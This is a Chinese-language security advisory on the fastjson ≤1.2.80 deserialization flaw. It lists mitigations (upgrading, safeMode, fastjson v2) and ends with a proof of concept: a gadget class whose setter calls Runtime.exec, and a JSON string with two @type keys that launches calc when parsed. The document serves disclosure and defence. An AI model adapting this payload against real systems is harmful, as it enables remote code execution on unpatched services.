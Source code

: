 # fasjton 1.2.80版本反序列化漏洞：POC代码及规避方案（20220523）



## 1. 漏洞描述

fastjson已使用黑白名单用于防御反序列化漏洞，经研究该利用在特定条件下可绕过默认autoType关闭限制，攻击远程服务器，风险影响较大。建议fastjson用户尽快采取安全措施保障系统安全。



## 2. 影响版本

1.2.80及以下版本，即 <= 1.2.80。



## 3. 规避方案（以下任选一种）

### 3.1  升级到最新版本1.2.83

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.83</version>
</dependency>
```



### 3.2 开启safeMode

参考：https://github.com/alibaba/fastjson/wiki/fastjson_safemode



### 3.2.1 java代码中设置

```java
ParserConfig.getGlobalInstance().setSafeMode(true);
```





### 3.2.2 JVM参数中设置

```shell
-Dfastjson.parser.safeMode=true
```

![jvm参数设置](./pics/jvm_poc20220523.png)



### 3.2.3 配置文件设置

```properties
# fastjson.properties 
fastjson.parser.safeMode=true
```

![fastjson.properties 设置](./pics/properties_poc20220523.png)



## 3.3 使用fastjson v2版本，与v1版本不兼容



## 4. POC代码



poc类（代码中需要有该类）

```java
package com.example.fastjson.poc20220523;

import java.io.IOException;

public class Poc20220523 extends Exception {
    public void setName(String str) {
        try {
            Runtime.getRuntime().exec(str);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```



攻击代码：

主要是构造json串：

```json
{
	"@type": "java.lang.Exception",
	"@type": "com.example.fastjson.poc20220523.Poc20220523",
	"name": "calc"
}
```

java代码解析：

```java
    public static void main(String[] args) {
        String json = "{\"@type\":\"java.lang.Exception\",\"@type\":\"com.example.fastjson.poc20220523.Poc20220523\",\"name\":\"calc\"}";
        JSON.parse(json);
    }
```



效果截图：

![效果截图：](./pics/poc_calc_poc20220523.png)



